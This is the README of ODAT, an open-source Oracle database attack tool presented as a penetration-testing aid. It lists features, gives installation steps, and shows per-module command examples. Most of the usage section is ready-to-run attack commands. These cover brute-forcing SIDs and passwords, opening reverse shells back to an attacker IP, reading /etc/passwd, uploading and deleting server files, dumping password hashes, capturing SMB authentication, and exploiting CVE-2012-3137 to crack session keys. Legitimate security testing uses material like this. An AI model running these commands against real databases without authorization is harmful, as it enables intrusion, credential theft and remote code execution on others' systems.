

__ODAT linux standalone__ version at [https://github.com/quentinhardy/odat/releases/download/1.6.0/odat-linux-libc2.5-x86_64-v1.6.tar.gz](https://github.com/quentinhardy/odat/releases/download/1.6.0/odat-linux-libc2.5-x86_64-v1.6.tar.gz) 

ODAT 
====

__ODAT__ (Oracle Database Attacking Tool) is an open source __penetration testing__ tool that tests the security of __Oracle Databases remotely__.

Usage examples of ODAT:
* You have an Oracle database listening remotely and want to find valid __SIDs__ and __credentials__ in order to connect to the database
* You have a valid Oracle account on a database and want to __escalate your privileges__ (ex: SYSDBA)
* You have a valid Oracle account and want to __execute commands on the operating system__ hosting this DB (ex: reverse shell)


Tested on Oracle Database __10g__,  __11g__ and __12c__(12.1.0.2.0).

Changelog
====
* Version __1.6__ (__2015/07/14__) :
 * new feature to detect if a target is vulnerable to TNS poisoning (CVE-2012-1675)
 * new module named *unwrapper* to unwrap PL/SQL source code wrapped, from a file or a remote database
 * some improvements done
* Version __1.5__ (__2015/03/17__) :
 * new module named *search* in order to search in column names
 * some improvements done (ex: output of tables)
 * new option : output encoding
* Version __1.4__ (__2014/12/07__) :
 * fix some false positives
 * improve the CVE-2012-3137 module: check more easily if the vulnerability can be exploited
* Version __1.3__ (__2014/10/07__) : 
 * add the *-C* option in the *all* module. This module can be used to use file which contains credentials (disable the *-U* and *-P* option)
 * add the *tnscmd* module to get TNS *alias*, database *version* (thanks to VSNNUM) and TNS *status*
 * bug fix: name server can be given to the *-s* option
* Version __1.2__ (__2014/08/08__) : 
 * add the *SMB* module to capture a SMB authentication
 * add an option (*SHOW_SQL_REQUESTS_IN_VERBOSE_MODE*) in *Constants.py* to show SQL requests sent to the database server
* Version __1.1__ (__2014/07/28__) : 
 * add the *DBMS_LOB* module useful in order to download files stored on a remote server through Oracle Database.
 * bug fix: java source code: "getenv no longer supported, use properties and -D instead"
* Version __1.0__ (__2014/06/26__) : 
 * first ODAT version.

Features
====

Thanks to ODAT, you can:

* search __valid SID__ on a remote Oracle Database listener via:
 * a dictionary attack
 * a brute force attack
 * ALIAS of the listener
* search Oracle __accounts__ using:
 * a dictionary attack
 * each Oracle user like the password (need an account before to use this attack)
* __execute system commands__ on the database server using:
 * DBMS_SCHEDULER
 * JAVA
 * external tables
 * oradbg
* __download files__ stored on the database server using:
 * UTL_FILE
 * external tables
 * CTXSYS
 * DBMS_LOB (NEW : 2014/07/28)
* __upload files__ on the database server using:
 * UTL_FILE
 * DBMS_XSLPROCESSOR
 * DBMS_ADVISOR
* __delete files__ using:
 * UTL_FILE
* __send/reveive HTTP requests__ from the database server using:
 * UTL_HTTP
 * HttpUriType
* __scan ports__ of the local server or a remote server using:
 * UTL_HTTP
 * HttpUriType
 * UTL_TCP
* __capture a SMB authentication__ through:
 * an index in order trigger a SMB connection
* exploit the __CVE-2012-313__ (http://cvedetails.com/cve/2012-3137)
 * pickup the session key and salt for arbitrary users
 * attack by dictionary on sessions
* check __CVE-2012-1675__ (http://seclists.org/fulldisclosure/2012/Apr/204)
* __search in column names__ thanks to the *search* module: (NEW : 2015/03/17)
 * search a pattern (ex: password) in column names
* __unwrap__ PL/SQL source code (10g/11g and 12c)


Supported Platforms and dependencies
====

ODAT is compatible with __Linux__ only.

__Standalone versions__ exist in order to don't have need to install dependencies and slqplus (see [https://github.com/quentinhardy/odat-standalones](https://github.com/quentinhardy/odat-standalones)).
The ODAT standalone has been generated thanks to *pyinstaller*.

If you want to have the __development version__ installed on your computer, these following tool and dependencies are needed:
* Langage: Python 2.7
* Oracle dependancies: 
 * Instant Oracle basic
 * Instant Oracle sdk
* Python libraries: 
 * cx_Oracle
 * colorlog (recommended)
 * termcolor (recommended)
 * argcomplete (recommended)
 * pyinstaller (recommended)

Installation (optional)
====

This part describes how to install instantclient, CX_Oracle and some others python libraries on __Ubuntu__ in order to have the ODAT development version. 
Don't forget that an ODAT standalone version exists at [https://github.com/quentinhardy/odat-standalones](https://github.com/quentinhardy/odat-standalones): __It is not required to install something for use the standalone version__

* Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
 * X64: http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html
 * X86: http://www.oracle.com/technetwork/topics/linuxsoft-082809.html

* Install *python-dev*, *alien* and *libaio1* package (for sqlplus):
```bash
sudo apt-get install libaio1 python-dev alien python-pip
```

* Generate DEB files from RPM files thanks to :
```bash
sudo alien --to-deb oracle-instantclient11.2-basic-???.x???.rpm
sudo alien --to-deb oracle-instantclient11.2-sqlplus-???.x???.rpm
sudo alien --to-deb oracle-instantclient11.2-devel-???.x???.rpm
```

* Install instant client basic, sdk and sqlplus:
```bash
sudo dpkg -i oracle-instantclient11.2-basic-???.x???.deb
sudo dpkg -i oracle-instantclient11.2-sqlplus-???.x???.deb
sudo dpkg -i oracle-instantclient11.2-devel_???_???.deb
```

* Put these lines in your */etc/profile* file in order to define Oracle *env* variables:
```bash
export ORACLE_HOME=/usr/lib/oracle/11.2/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=$ORACLE_HOME/bin:$PATH
```

* Restart your session (to apply env variables)  and run *sqlplus*:
```bash
sqlplus
```

> If nor error: good job, Continue...

* Create a symlink to your so file.
```bash
cd $ORACLE_HOME/lib/
sudo ln -s libclntsh.so.11.1   libclntsh.so
```

* Create the */etc/ld.so.conf.d/oracle.conf* file and add the path to Oracle home:
```
/usr/lib/oracle/11.2/client64/lib/
```

* Update the ldpath using:
```bash
sudo ldconfig
```

* Install *CX_Oracle*
```bash
sudo -s
source /etc/profile
pip install cx_Oracle
```

* Test if all is good:
```bash
python -c 'import cx_Oracle' 
```
> This command should *just return* without errors.

* Install some python libraries:
```bash
sudo apt-get install python-scapy
sudo pip install colorlog termcolor pycrypto
sudo pip install argcomplete && sudo activate-global-python-argcomplete
```

* Install the __development__ version of pyinstaller (http://www.pyinstaller.org/).
```bash
python setup.py install
```

* Run ODAT:
```bash
./odat.py -h
```

> __Good job if you have not errors:)__

Examples
====

Modules
---

* You can list all modules:
```bash
./odat.py -h
```

* When you have chosen a module (example: *all*), you can use it and you can list all features and options of the module:
```bash
./odat.py all -h
```

 *all* module
---

The *all* module allows you to run all modules (depends on options that you have purchased).

It is useful __when you want to known what you can do on a database server (with a valid SID or no, with a valid Oracle account or no)__.

* run all ODAT modules on the 192.168.142.73 Oracle database server listening on the 1521 port:
```bash
./odat.py all -s 192.168.142.73 -p 1521
```
ODAT will search valid SID.
It will search valid Oracle accounts on each Oracle Instance (SID) found.
For each valid account on each valid instance (SID), it will give you what each user can do (execute system commands on the database server, read files, etc).

* If you known a SID (ex: *ORCL*):
```bash
./odat.py all -s 192.168.142.73 -p 1521 -d ORCL
```

* If you don't known a SID, you will can give the number of character maximum and the charset to use (for the brute force attack) and the file containing SID (for the dictionary attack):
```bash
./odat.py all -s 192.168.142.73 -p 1521 --sids-max-size=3 --sid-charset='abc' --accounts-file=accounts.txt
```

* If you known a SID (ex: *ORCL*) and an account (*SYS/password*):
```bash
./odat.py all -s $SERVER -p $PORT -d $SID -U $USER -P $PASSWORD
```

 *tnscmd* module
---
This module can be used to communicate directly with the Oracle's TNS listener.

* If you would like to know alias defined on the listener, you could use this following command:
```bash
./odat.py tnscmd -s $SERVER -p $PORT --ping
```

* To know the remote database version, the following command can be used:
```bash
./odat.py tnscmd -s $SERVER -p $PORT --version
```

* To know the remote database status, the following command can be used:
```bash
./odat.py tnscmd -s $SERVER -p $PORT --status
```

 *sidguesser* module
---

This module search valid SID only.

* You can give the file name containing a SID list:
```bash
./odat.py sidguesser -s $SERVER -d $SID --sids-file=./sids.txt
```

 *passwordguesser* module
---

This module has been created in order to try to guess Oracle users passwords.

* This command will try to connect to the database using the Oracle username like the password (only) in order to don't block accounts with too many bad attempts:
```bash
./odat.py passwordguesser -s $SERVER -d $SID
```

* If you want to try each Oracle username with multiple passwords:
```bash
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt
```


 *dbmsscheduler* module
---

This module can be used to execute system commands on a remote database server. Useful to get a __reverse tcp shell__.

__Note 1__: It is not possible to:

 ~ get the output of the system command

 ~ to give some special chararacters in arguments to the system command (ex: *>*)

* To get a reverse tcp shell when the remote database server is a Linux:
```bash
./odat.py dbmsscheduler -s $SERVER -d $SID -U $USER -P $PASSWORD --reverse-shell $MY_IP $A_LOCAL_PORT
```
__Note 2__: You don't need to open a listen port manually to have a reverse tcp shell: The module will open the specified port for you.

> I think it is the __most useful__ and __most effective__ module: Many times I have meet Oracle users who can use the Oracle DBMS_SCHEDULER library but not the JAVA. 

 *java* module
---

This module can be used to execute system commands on a remote database server. Useful to get a __shell__ or a __reverse tcp shell__.

* To get a *shell* on the database server:
```bash
./odat.py java -s $SERVER -d $SID -U $USER -P $PASSWORD --shell
```

* To get a reverse tcp shell:
```bash
./odat.py java -s $SERVER -d $SID -U $USER -P $PASSWORD --reverse-shell
```

 *oradbg* module
---

This module can be used to execute system commands on a remote database server:

* To execute the */bin/ls* command:
```bash
./odat.py oradbg -s $SERVER -d $SID -U $USER -P $PASSWORD --exec /bin/ls
```

 *utlhttp* module
---

This module allows you to forge HTTP requests. You can sendand receive HTTP request from the database server.
It can be used to scan ports of a remote server. It is useful to knwon which *localhost* ports are listening for example.

* The *--test-module* option exists on each module and it permits to known if the current Oracle user is allowed to use the module:
```bash
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --test-module
```

* You can scan some ports:
```bash
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 1521,443,22
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 20-30
```

* You can send a HTTP request:
```bash
echo 'GET / HTTP/1.0\n' > ./temp.txt;
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --send google.com 80 temp.txt ;
rm ./temp.txt
```

 *httpuritype* module
---

This module can be used to scan ports and to forge some HTTP requests:

* To scan ports:
```bash
/odat.py httpuritype -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 1521,443,22
./odat.py httpuritype -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 20-30
```

* You can send a GET request:
```bash
./odat.py httpuritype -s $SERVER -d $SID -U $USER -P $PASSWORD --url 127.0.0.1:80
```

 *utltcp* module
---

This module can be used to scan ports and it can be used to forge and to send TCP packet (ex: HTTP request).
 
* To scan ports:
```bash
./odat.py utltcp -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 1521,443,22
```

* To forge a HTTP GET request:
```bash
echo 'GET / HTTP/1.0\n\n' > ./temp.txt;
./odat.py utltcp -s $SERVER -d $SID -U $USER -P $PASSWORD --send-packet 127.0.0.1 80 ./temp.txt
rm ./temp.txt
```

 *ctxsys* module
---

This module can be used to download a file stored on the database server:

* To get the */etc/passwd* file of the remote database server:
```bash
./odat.py ctxsys -s $SERVER -d $SID -U $USER -P $PASSWORD --getFile /etc/passwd
```

 *externaltable* module
---

This module can be used to download files or to run script remotly.

__Notes__: 

 ~ It is __not possible to give an argument__ to the executable

 ~ The executable must be stored on the database server

 ~ The executable must have the execution bit enabled

* To download the *temp.sh* file stored in */tmp/* in *test.txt*:
```bash
./odat.py externaltable -s $SERVER -d $SID -U $USER -P $PASSWORD --getFile /tmp/ temp.sh test.txt
```

* To run the *temp.sh* executable stored in the */tmp/* folder of the database server: 
```bash
./odat.py externaltable -s $SERVER -d $SID -U $USER -P $PASSWORD --exec /tmp/ temp.sh
```

 *dbmsxslprocessor* module
---

This module can be used to upload a file on a remote database server:

* To upload the *test.txt* local file in the */tmp/* folder like *file.txt*:
```bash
./odat.py dbmsxslprocessor -s $SERVER -d $SID -U $USER -P $PASSWORD --putFile /tmp/ file.txt test.txt
```

 *dbmsadvisor* module
---

This module can be used to upload a file on the server.

* To upload the *test.txt* local file in the */tmp/* folder like *file.txt*:
```bash
./odat.py dbmsadvisor -s $SERVER -d $SID -U $USER -P $PASSWORD --putFile /tmp/ file.txt ./test.txt
```

 *utlfile* module
---

This module can be used to:

 ~ upload a file

 ~ download a file

 ~ delete a remote file


* To download the */etc/passwd* file:
```bash
./odat.py utlfile -s $SERVER -d $SID -U $USER -P $PASSWORD --test-module --getFile /etc/ passwd passwd.txt
```

* To upload the *test.txt* file:
```bash
./odat.py utlfile -s $SERVER -d $SID -U $USER -P $PASSWORD --putFile /tmp/ file.txt test.txt
```

* To delete the *file.txt* file stored in */tmp/*:
```bash
./odat.py utlfile -s $SERVER -d $SID -U $USER -P $PASSWORD --removeFile /tmp/ file.txt
```

 *passwordstealer* module
---

This module has been created in order to get hashed password quicly and to pickup hashed passwords from the history.

* To get hashed passwords from the history:
```bash
./odat.py passwordstealer -s $SERVER -d $SID -U $USER -P $PASSWORD --get-passwords-from-history
```

* To get hashed passwords from the users table:
```bash
./odat.py passwordstealer -s $SERVER -d $SID -U $USER -P $PASSWORD --get-passwords
```

 *dbmslob* module
---

This module uses the DBMS_LOB Oracle library to download files remotely.

* To download the passwd file stored in */etc/* to the tmp.txt local file:
```bash
./odat.py dbmslob -s $SERVER -d $SID -U $USER -P $PASSWORD --getFile /etc/ passwd temp.txt
```

 *smb* module
---

This module allows to capture a SMB authentication.

Prerequisite in order to capture a challenge: 
* Oracle Database must be installed on __Windows__
* Oracle Database services must __not__ used a Windows __network service__ account, a __system__ account or a __local service__ account.

Notice: To use this module, a tool to capture SMB authentication must be used (examples: metasploit or responder).

* In this example, I have used the *auxiliary/server/capture/smb* metasploit module to capture the SMB authentication:
```bash
msfconsole
[...]
msf auxiliary(smb) > use auxiliary/server/capture/smb
msf auxiliary(smb) > run
```

* To make connect the Oracle Database server to our smb server, the following ODAT command can be used :
```bash
./odat.py smb -s $SERVER -d $SID -U $USER -P $PASSWORD --capture $MY-IP-ADDRESS SHARE-NAME
```

 *stealRemotePwds* module
---

This module allows you to exploit the CVE-2012-3137 (http://www.cvedetails.com/cve/CVE-2012-3137/) vulnerability easily.


__Note__: Need *root* privileges in order to sniff session keys and salts from the network.

* To test if the remote database is vulnerable:
```bash
sudo ./odat.py stealRemotePwds -s $SERVER -d $ID -U $USER -P $PASSWORD --test-module
```
* With the previous command, ODAT will try to get the session key and salt. If it has these 2 values for the user given in command line (ie $USER), ODAT will try to decrypt the session key with your password given in command line (ie $PASSWORD). If the session id (value decrypted) starts with '\x08\x08\x08\x08\x08\x08\x08\x08', the password given (ie $PASSWORD) for this user (ie $USER) is valid and the target database is vulnerable to this CVE.
* To get session keys and salts of users stored in the *accounts_small.txt* file:
```bash
sudo ./odat.py stealRemotePwds -s $SERVER -d $ID --user-list accounts_small.txt --get-all-passwords
```
* To do a dictionary attack on session keys and salts:
```bash
sudo chmod o+r sessions-$SERVER-1521-$SID.txt; ./odat.py stealRemotePwds -s $SERVER -d $SID --decrypt-sessions sessions-$SERVER-1521-$SID.txt dede.txt
```

 *search* module
---

This module allows you to search in column names easily.

* To get column names which contains *password* *like* (ex: passwd, password, motdepasse, clave):
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --pwd-column-names
```

By default, columns which do not contain data are not output by this module.
To see columns which do not contain data, you should use the *--show-empty-columns* option:
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --pwd-column-names --show-empty-columns
```

* You can search patterns in column names manually (*--columns* option). To search column names which contain the pattern '%PASSWORD%':
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --columns '%password%'
```

* To search column names which contain password like patterns:
```bash
./odat.py search -s $SERVER -d $SID -U $USER -P $PASSWORD --columns '%password%'
```

 *unwrapper* module
---
This module allows you to unwrap PL/SQL source code wrapped (Oracle 10, 11 and 12).

* To unwrap PL/SQL source code from a local file:
```bash
./odat.py unwrapper --file code.txt
```

An example of file:
```bash
cat code.txt
a000000
1
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
abcd
d
140 df
dpvm2y/8e4GQNNJr8ynRmaVUXCcwg5BK7Z7WZy9GXsE+YUtphQwUvwrjGSgSmOM9b/RUVKIU
[...]
2A==
```

* To unwrap PL/SQL source code from a remote database object (ex: package):
```bash
./odat.py unwrapper -s $SERVER -d $ID -U $USER -P $PASSWORD --object-name 'WRAPPED_OBJECT'
```

* To see the wrapped PL/SQL source code remotely:
```sql
SELECT text FROM all_source WHERE name='WRAPPED_OBJECT' ORDER BY line
```

---
| __Quentin HARDY__    |
| ------------- |
| __quentin.hardy@bt.com__    |
| __qhardyfr@gmail.com__  |

